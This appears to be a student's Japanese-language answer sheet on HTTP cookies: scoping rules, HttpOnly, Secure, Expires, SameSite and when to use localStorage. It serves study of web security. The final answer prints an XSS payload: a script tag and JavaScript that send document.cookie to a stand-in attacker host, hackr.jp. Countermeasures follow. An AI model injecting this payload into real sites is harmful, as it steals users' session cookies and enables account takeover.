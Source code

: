 # 課題4

## 問題１

　HTTPはステートレス・プロトコルであるため、以前やり取りしたリクエストやレスポンスの状態を管理しない。つまり、以前の状態を踏まえた上でのリクエストを処理することができない。たとえば、認証が必要なWebページで状態管理が無いとすると、認証済みという状態を忘れてしまうため、新たなページに移動するたびに再度ログイン情報を送るか、リクエストごとにパラメーターか何かをつけてログイン状態を管理しなければならなくなる。  
　ステートレス・プロトコルの特徴は残したまま、こういった問題を解決するためにCookieが取り入れられた。Cookieは、リクエストとレスポンスにCookieという情報を載せることによって、クライアントの状態を把握するための仕組み。  
　Cookieは、サーバーからのレスポンスで送られたSet-Cookieというヘッダーフィールドによって、Cookieをクライアントに保持してもらうように指示を出す。次に、クライアントが同じサーバーにリクエストを出す際には、クライアントが自動的にCookieに値を入れて送信する。  
　サーバーはクライアントが送ってきたCookieを見ることで、どのクライアントからのアクセスなのかをチェックし、サーバー上の記録を確かめることで、以前の状態を知ることができる。

## 問題2

送信されない。  
Domain属性が指定されていない場合、同一オリジンでのみ利用可能なため。

## 問題3

送信される。  
同一ホストであれば、異なるポートにも送信される。

[参考](https://datatracker.ietf.org/doc/html/rfc6265)

```
Similarly, cookies for a given host are shared across all the ports on that host
```

## 問題4

送信されない。  
Domain属性が指定されていない場合、同一オリジンでのみ利用可能となり、サブドメインは除外される。

## 問題5

送信される。  
Domain属性が指定されている場合、サブドメインにも送出される。

## 問題6

HttpOnly属性を指定することで可能になる。  
HttpOnly属性は、Cookieの取得をJavaScript経由で行うことができないようにするCookieの拡張機能。  
HttpOnly属性が指定されたCookieはJavaScriptの「Document.cookie」APIにアクセスできなくなる。

## 問題7

Secure属性を指定することで可能になる。  
Secure属性は、WebページがHTTPSで開かれているときのみに、Cookieが送出されるよう制限する。

## 問題8

Expires属性は、ブラウザがCookieを送出することができる有効期限を指定することができる。

## 問題9

SameSite属性は、ブラウザがクロスサイトリクエストとともにCookieが送信されることを防ぐ。  
主な目的は、クロスオリジンの情報漏洩リスクを軽減することで、CSRF の対策にもなる。  
取ることができる値は、Strict, Lax, Noneの3つ。  
Strictの値を設定すると、すべてのクロスサイトの閲覧コンテキストにおいて、ブラウザからターゲットサイトにクッキーが送信されないようになる。  
Laxの値を設定すると、外部のウェブサイトで通常のリンクからアクセスしたときはCookieを許可し、CSRF が発生しやすいリクエストメソッド (POST など) ではCookieをブロックする。  
Noneの値を設定すると、ブラウザはすべての閲覧コンテキストでクッキーを送信する。

[参考](https://owasp.org/www-community/SameSite)

## クッキーに格納しない方が良い情報の例を、3つ以上挙げてください

- 4096バイトを超える容量の大きい情報。
- サーバーに送信する必要が無い情報。
- 暗号化されていないパスワードなどの秘匿性の高い情報

## クッキーはローカルストレージと混同されることが多々あります。クッキーを使うべきタイミングと、ローカルストレージを使うべきタイミングを挙げてみてください

クッキーを使うべきタイミング. 
ログイン情報などのサーバーに送信する必要がある情報や、秘匿性の高い重要な情報を保持するとき

ローカルストレージを使うべきタイミング  
サイトの表示設定などの、サーバーに送信する必要がない情報。

## stack overflowのようなWEB掲示板サービスを開発しているとしましょう。XSS（クロスサイトスクリプティング）により、他ユーザのクッキー情報が抜き出される仕組みを説明してください。どのような対策が考えられますか？

下記のようなスクリプトを仕込むことで、ユーザーのCookieをXSSによって奪うことができる。

```
<script src=http://hackr.jp/xss.js></scriot>
```

このスクリプトが指し示すhttp://hackr.jp/xss.jsは下記のJavaScriptが記述されている

```
const content = escape(document.cookie);
document.write("<img src=http://hackr.jp/?");
document.write(content);
document.write(">")
```

このJavaScriptがXSSの脆弱性のあるWebアプリケーション上で実行されると、そのWebアプリケーションのドメインのCookie情報にアクセスされる。
そして、その情報が http://hackr.jp/ に送信され、ユーザーのCookie情報を奪うことができる。

対策としてはCookieにHttpOnly属性を設定し、JavaScriptで「document.cookie」にアクセスできなくする方法や、
ユーザーの入出力が行われる箇所でエスケープ処理を行うなどの方法がある。
